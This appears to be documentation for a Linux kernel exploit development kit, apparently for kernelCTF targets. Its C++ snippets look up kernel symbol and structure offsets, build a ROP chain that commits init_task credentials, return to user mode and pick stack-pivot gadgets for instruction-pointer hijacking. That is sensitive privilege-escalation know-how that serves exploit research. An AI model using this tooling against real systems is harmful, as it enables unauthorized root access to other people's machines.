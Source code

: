 # How to get started

### Initialize the Target Database

The target database contains all of the information needed to customize the exploit for the current target.

This section describes how to use the prebuilt database, extend it if necessary and how to make it replaceable with an updated version.

1. Add the necessary includes to the exploit code.

    ```c++
    #include <xdk/core.h>
    #include <xdk/postrip.h>
    ```

2. Include the **target_db**. `INCBIN` creates a read-only section in the exploit binary with the current target database content.

    ```c++
    INCBIN(target_db, "target_db.kxdb");
    ```

3. Initialize **TargetDb**. This constructor uses the `target_db.kxdb` file if exists, otherwise it fallbacks to the compile-time `INCBIN`'d database. This way, the exploit can be customized for running on other targets by supplying another `target_db.kxdb` after compilation time.

    ```c++
    TargetDb kxdb("target_db.kxdb", target_db);
    ```

4. Already available in database structure and symbol offsets are documented in `kxdb_tool/config.py`.
They are added for all the supported targets.

5. If the needed symbol is not in database, use `Target` object to add it. One object per target needed. For example:

    ```c++
    Target st("kernelctf", "cos-105-17412.294.34");

    st.AddSymbol("nft_last_ops", 0x1acaf20);

    kxdb.AddTarget(st);
    ```

6. Similar approach could be taken for adding structure and fields information:

    ```c++
    Target st("kernelctf", "cos-105-17412.294.34");

    st.AddStruct("nft_expr_ops", 128, { 
        {"dump", 64, 8},
        {"type", 120, 8} });

    kxdb.AddTarget(st);
    ```

    > **Note**
    > `128` in the example above is a size of the `nft_expr_ops` structure. `{"dump", 64, 8}` field is located at the offset of 64 and as is a pointer, size would be 8 for 64-bit architecture.

7.  Detect which target the exploit is being run on.

    ```c++
    auto target = kxdb.AutoDetectTarget();
    printf("[+] Running on target: %s %s\n", target.GetDistro().c_str(), target.GetReleaseName().c_str());
    ```

8. Access pre-defined or added (via `Target`) structures and symbols using following calls:

    ```c++
    auto offset = target.GetStruct("nft_expr_ops").size + target.GetStruct("nft_expr_ops").fields.at("type").offset; // get the size and offset of type field in nft_expr_ops structure

    *(uint64_t *)&buffer[offset] = kernel_base + target.GetSymbolOffset("nft_last_ops"); // the address of nft_last_ops
    ```

### Building the Payload

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1. Initialize a `Payload` object. This will serve as the buffer for our ROP chain and other necessary data.

    ```c++
    Payload payload(1024);
    ```

2. If the payload contains constants / areas that should not be overwritten by `PayloadBuilder`, mark them as reserved:

   ```c++
   payload.Reserve(0, 8);
   ```

   > **Note**
   > Reserves 8 bytes at offset 0.

3. Create the `RopChain`. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The `Ret2Usr` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    ```c++
    RopChain rop(target, kaslr_base);
    rop.AddRopAction(RopActionId::COMMIT_INIT_TASK_CREDS);
    RopUtils::Ret2Usr(rop, (void*)win);
    ```

    > **Note**
    > Available ROP actions could be found in `kxdb_tool/config.py`.

### Assembling the Final Payload with PayloadBuilder

The `PayloadBuilder` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1. Initialize the `PayloadBuilder` with the target's available pivot gadgets and the KASLR base.

    ```c++
    PayloadBuilder builder(target.pivots, kaslr_base);
    ```

2. Add the `payload` object to the builder. You need to specify which register will point to your payload buffer (e.g., `Register::RSI`) and the offset within that buffer where the instruction pointer (`rip`) will be hijacked.

    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, Register::RSI, rip_off);
    ```

    In the situation when multiple registers contain a pointer to the payload, it's worth informing `PayloadBuilder` about it:
    ```c++
    uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
    builder.AddPayload(payload, {Register::RSI, Register::RAX}, rip_off);
    ```

    `PayloadBuilder` is capable of handling multiple buffers (and use them if needed to accomodate ROP chain actions). To inform `PayloadBuilder` about such a setup use:
    ```c++
    Payload payload1(payload_size_1);
    Payload payload2(payload_size_2);
    PayloadBuilder builder(target.pivots, kernel_base); // create builder

    builder.AddPayload(payload1, std::nullopt, std::nullopt);
    builder.AddPayload(payload2, Register::RSI, rip_off); // add payload, with register, and rip_offset
    ```

3. Add the `RopChain` to the builder.

    ```c++
    builder.AddRopChain(rop);
    ```

4. Build the final payload. The `Build()` method will find an appropriate pivot gadget that uses the specified register (`RSI` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the `payload` object you provided earlier.

    ```c++
    if(!builder.Build())
        exit(-1);
    ```

    Once built, the `payload` object contains the complete, ready-to-use exploit payload.

5. In cases when pointer to pivot gadget should be part of some other buffer or passed as a parameter it could be obtained in the following way after building the final payload:

   ```c++
    *(uint64_t *)&some_buffer[offset] = kernel_base + builder.GetStackPivot().GetGadgetOffset();
   ```
